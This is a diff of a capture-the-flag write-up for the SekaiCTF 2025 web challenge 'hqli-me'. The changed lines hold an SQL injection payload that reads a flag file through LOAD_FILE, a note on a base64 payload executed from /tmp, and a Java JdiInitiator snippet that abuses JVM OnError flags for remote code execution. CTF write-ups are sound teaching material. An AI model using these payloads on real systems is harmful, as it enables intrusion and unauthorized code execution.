

Before and after one commit to valgrindCTF/website, a Markdown page: src/posts/hqli-me.md, 3 parts joined by grey strips. Rendered like a GitHub page; grey boxes are pictures that could not be loaded.

````diff
--- a/src/posts/hqli-me.md
+++ b/src/posts/hqli-me.md
@@ -10,6 +10,7 @@ author: "VXXDXX"
 
 > Please note that this challenge has no outgoing network access.
 
+Author: irogir
 Solves: 3
 
 ![Solves](/static/img/posts/2025-sekai-web-hqli-me/hqli-solves.webp)
@@ -403,7 +401,7 @@ echo "----------------------------------------------------"
 echo "The base64 payload was sent in chunks to /tmp/b64 and then executed."
 echo "Polling for flag in mysql"
 
-DATA='sessionId=d6574c34027979a77fa84b5cc7e09280&fields=sql%28%27to_base64%28LOAD_FILE%28%22%2Fvar%2Flib%2Fmysql-files%2Fflag%22%29%29+--+%27%29q'
+DATA="sessionId=${SESSION_ID}&fields=sql%28%27to_base64%28LOAD_FILE%28%22%2Fvar%2Flib%2Fmysql-files%2Fflag%22%29%29+--+%27%29q"
 tmp="$(mktemp)"
 trap 'rm -f "$tmp"' EXIT
 
@@ -640,13 +638,13 @@ SEKAI{test_flag}
 
 ## Final Notes
 
-- You can read the challenge creator's write-up [here](https://github.com/project-sekai-ctf/sekaictf-2025/blob/main/web/hqli-me/solution/e.py). The official solution uses `CSVWRITE` to achieve stacked sqli to create an alias in H2 for RCE. I wasn't aware it's possible,
+- You can read the challenge creator's write-up [here](https://github.com/project-sekai-ctf/sekaictf-2025/blob/main/web/hqli-me/solution/e.py). The official solution uses `CSVWRITE` to achieve stacked sqli to create an alias in H2 for RCE. I wasn't aware it was possible,
 - The official solution also uses another method for RCE with `JdiInitiator` via Java code injection. I also came up with yet another way to do it beforehand with `OnError` and heap size JVM flags like so:
 ```
 new jdk.jshell.execution.JdiInitiator(0, new list("-XX:OnError=id>/tmp/err.rce","-XX:OnOutOfMemoryError=id>/tmp/err2.rce","-XX:+CrashOnOutOfMemoryError","-Xmx3m","-XX:MaxMetaspaceSize=8m","-jar /app/target/hn-1.0-SNAPSHOT-jar-with-dependencies.jar"), new java.lang.String("jdk.jshell.execution.RemoteExecutionControl"), true, null, 8000, new java.util.HashMap(2))
 ```
 
-Funnily enough it worked locally, but not on remote. I'm sure there's a more proper way to trigger it this way. There could possibly be even more ways to RCE with `JdiInitiator`.
+Funnily enough it worked locally, but not on remote. I'm sure there's a more proper way to trigger it this way. There could be even more ways to RCE with `JdiInitiator`.
 
 XOXO,
 VXXDXX
````
Also changed, not shown: other parts of src/posts/hqli-me.md (+18 -21 lines).
